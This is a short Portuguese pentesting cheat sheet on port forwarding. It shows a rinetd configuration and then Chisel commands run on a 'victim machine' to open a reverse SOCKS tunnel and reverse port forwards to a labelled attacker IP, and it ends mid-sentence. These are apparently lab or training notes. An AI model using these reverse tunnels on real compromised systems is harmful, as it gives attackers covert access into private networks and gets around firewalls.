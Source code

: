 Tunelamento e encaminhamento de portas
========================
# Port forwarding

## rinetd

    sudo apt update
    sudo apt install rinetd
    cat vi /etc/rinetd.conf
    
    # forwarding rules come here
    #
    # you may specify allow and deny rules after a specific forwarding rule
    # to apply to only that forwarding rule
    #
    # bindadress    bindport  connectaddress  connectport
            0.0.0.0    80    www.google.com    80
    
    
    sudo systemctl start rinetd
    

## Chisel (melhor opção com o windows)

Referência: <https://medium.com/geekculture/chisel-network-tunneling-on-steroids-a28e6273c683>

Encaminhamento de porta dinâmico

Na máquina vítima, executar o seguinte comando:

    chisel client 192.168.49.120:3477 R:5000:socks
    # O IP informado no comando é o IP da máquina atacante
    
    
    # O comando abaixo eh para redirecionar portas locais para a maquina do atacante:
    # client <IP atacante>:<porta atacante> R (remote) <porta vitima>:interface do_atacante:porta_atacante
    ./chisel.exe client 10.10.14.8:9999 R:5000:127.0.0.1:8888
    
    
Vale considera que precisamos liberar no firewall as portas pelas quais vamos receber a conexão:
